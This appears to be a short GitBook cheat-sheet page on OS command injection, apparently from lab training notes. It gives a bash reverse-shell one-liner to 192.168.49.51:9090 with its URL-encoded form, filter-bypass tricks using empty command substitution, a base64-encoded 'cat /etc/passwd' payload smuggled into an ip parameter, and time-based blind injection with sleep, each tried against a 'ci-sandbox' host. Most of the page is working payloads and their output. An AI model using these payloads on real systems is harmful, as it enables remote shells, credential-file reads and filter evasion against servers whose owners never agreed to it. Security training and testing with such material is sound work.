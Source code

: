 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CI 101

## Input Normalization

We must handle "bad" characters that might alter a payload’s behavior. We should **enclose such characters in single quotes** to make the target server interpret them as valid data instead of new parameters.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
```

We also need to **URL-encode** these characters. For instance, the `&` character is used as a delimiter by the backend, and if not URL-encoded, the web server will process everything after it as a parameter-value pair.

{% code overflow="wrap" %}
```bash
$ hURL -U "bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.51%2F9090%200%3E%261%27
```
{% endcode %}

## Input Sanitization - Blacklisted

### Command Substitution

We can use command substitution (`$()` or ` `` `) to inject **empty output** between characters, thereby modifying strings without altering the functional behavior of the payload.

```bash
$ wh$()oami
x7331
$ who``ami
x7331
```

### Base64 Encoding

We can also combine Base64-encoding with command substitution.

```bash
$ echo "cat /etc/passwd" |base64
Y2F0IC9ldGMvcGFzc3dkCg==
```

{% code overflow="wrap" %}
```html
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`
```
{% endcode %}

## Blind CI

```html
http://ci-sandbox/php/blind.php?ip=127.0.0.1|sleep+5;
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_1 (1).png" alt=""><figcaption><p>Figure 1: Injecting a time-based payload.</p></figcaption></figure>

We also use `time` and `curl` to measure the response time.

```bash
$ time curl "http://ci-sandbox/php/blind.php?ip=127.0.0.1" -s
<html>
<SNIP>
</html>

real    0m0.062s # Normal response time
user    0m0.006s
sys     0m0.000s

$ time curl "http://ci-sandbox/php/blind.php?ip=127.0.0.1|sleep+5" -s
<html>
<SNIP>
</html>

real    0m5.063s # The 'sleep 5' payload worked
user    0m0.003s
sys     0m0.003s
```
